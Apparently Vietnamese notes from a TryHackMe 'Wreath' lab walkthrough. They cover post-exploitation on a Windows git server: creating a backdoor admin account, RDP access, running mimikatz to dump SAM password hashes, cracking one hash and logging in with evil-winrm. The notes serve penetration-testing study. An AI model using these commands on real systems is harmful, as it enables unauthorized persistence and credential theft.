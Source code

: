 ![](../media/Wreath%20-%20tryhackme_10.png)

![](../media/Wreath%20-%20tryhackme_11.png)

Kết quả là chiếm thêm được 1 server

Trên git server tạo tk mới và add vào group admin, rdp

net user dai1 nodai1 /add

net localgroup Administrators dai1 /add

net localgroup "Remote Management Users" dai1 /add

![](../media/Wreath%20-%20tryhackme_12.png)

POST EXPLOIT

net user dai 1:Giterver /add

Next we add our newly created account in the "Administrators" and "Remote Management Users" groups:

net localgroup Administrators dai /add
net localgroup "Remote Management Users" dai /add

Login rdp with remmina

xfreerdp /u:dai1 /p:'nodai1' /v:10.200.84.150 +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share

bật cmd trên rdp rồi chạy mimikatz nếu

Lưu ý: Nếu bạn đã sử dụng một share name khác, bạn sẽ cần thay thế điều này. Cũng như vậy, nếu lỗi lệnh, bạn có thể cần cài đặt mimikatz trên kali.

Vd: Dùng evil để upload mimikatz

![](../media/Wreath%20-%20tryhackme_13.png)

tiếp theo, chúng ta cần tự cấp cho mình quyền debug và nâng tính toàn vẹn của mình lên system level

privilege::debug
token::elevate

Bây giờ chúng ta có thể dump tất cả SAM local password hashes bằng cách sử dụng:

lsadump::sam

![](../media/Wreath%20-%20tryhackme_14.png)

Sau khi dump ta có hash của admin và Thomas

Dùng crack station để crack thì được pass tài khoản Thomas :

i<3ruby

Sau đó, dùng evil-winrm để remote vào tài khoản admin

![](../media/Wreath%20-%20tryhackme_15.png)
